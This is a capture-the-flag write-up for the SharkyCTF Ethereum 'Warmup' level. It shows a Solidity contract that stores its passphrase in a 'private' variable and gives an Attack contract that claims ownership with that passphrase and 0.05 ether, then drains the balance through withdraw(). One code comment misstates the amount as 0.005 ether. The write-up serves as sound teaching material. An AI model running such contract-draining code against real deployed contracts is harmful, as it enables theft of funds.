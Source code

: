 # Warmup

## Setup

The challenge is available at http://ethereum.sharkyctf.xyz/level/1

Before starting, it is recommended to follow the suggested steps at http://ethereum.sharkyctf.xyz/help to setup Metamask, get Ether from a Ropsten faucet, and Remix IDE.

## Challenge

The contract to attack is the following :

```solidity
pragma solidity = 0.4.25;

contract Logic {
    address public owner;
    bytes32 private passphrase = "th3 fl4g 1s n0t h3r3";
    
    constructor() public payable {
        owner = msg.sender;  
    }
    
    function withdraw() public {
        require(msg.sender == owner);
        msg.sender.call.value(address(this).balance)();
    }

    function claim(bytes32 _secret) public payable {
        require(msg.value == 0.05 ether && _secret == passphrase);
        owner = msg.sender;
    }
}
```

The goal is then to be able to call `withdraw()` from the contract.

## Hint

There is no special trick for this challenge, you just need to be able to use `claim()` before calling `withdraw()`.

## Solution

As the previous warmup challenge, this challenge does not require knowledge about specific exploits and just test your ability to interact with contracts.

To attack this contract, we will create another contract called Attack, which will be called to attack the first contract.

In the same Solidity file, add the following code :

```solidity
contract Attack {
    Logic public target;
    
     constructor (address _adress) public {
        target = Logic(_adress);
    }
    
     function attack() public payable {
        bytes32 passphrase = "th3 fl4g 1s n0t h3r3";
        
        // We send the 0.005 ether to the target
        target.claim.value(0.05 ether)(passphrase);
        
        // Once it is unlocked we withdraw the money;
        target.withdraw();
    }
}
```